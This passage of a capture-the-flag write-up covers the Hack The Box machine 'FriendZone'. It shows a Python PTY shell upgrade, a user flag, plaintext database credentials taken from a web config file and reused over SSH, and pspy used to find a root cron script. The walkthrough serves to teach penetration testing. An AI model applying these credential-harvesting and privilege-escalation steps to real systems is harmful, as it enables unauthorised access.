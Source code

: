 By following command, we can achieve a full bash shell.
{% highlight shell %}
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@FriendZone:/$ 
{% endhighlight %}

user.txt is in the directory ""
{% highlight shell %}
www-data@FriendZone:/home/friend$ cat user.txt
cat user.txt
a9ed20acecd6c5b6b52f474e15ae9a11
{% endhighlight %}

### 3. Getting Root
In the directory "/var/www", we can find a password for user "friend".
{% highlight shell %}
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
{% endhighlight %}

Now we can ssh to the box with the credential
{% highlight shell %}
root@kali:~# ssh friend@10.10.10.123
The authenticity of host '10.10.10.123 (10.10.10.123)' can't be established.
ECDSA key fingerprint is SHA256:/CZVUU5zAwPEcbKUWZ5tCtCrEemowPRMQo5yRXTWxgw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.123' (ECDSA) to the list of known hosts.
friend@10.10.10.123's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$ 
{% endhighlight %}

To enumerate Linux box, we can use a published script <a href="https://github.com/DominicBreuker/pspy">pspy</a>.<br>
By running this script, we can find a cron job which runs "/opt/server-admin/reporter.py".
{% highlight shell %}
2019/09/04 22:34:01 CMD: UID=0    PID=3787   | /usr/bin/python /opt/server_admin/reporter.py 
2019/09/04 22:34:01 CMD: UID=0    PID=3786   | /bin/sh -c /opt/server_admin/reporter.py 
2019/09/04 22:34:01 CMD: UID=0    PID=3785   | /usr/sbin/CRON -f 
{% endhighlight %}
{% highlight shell %}
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)
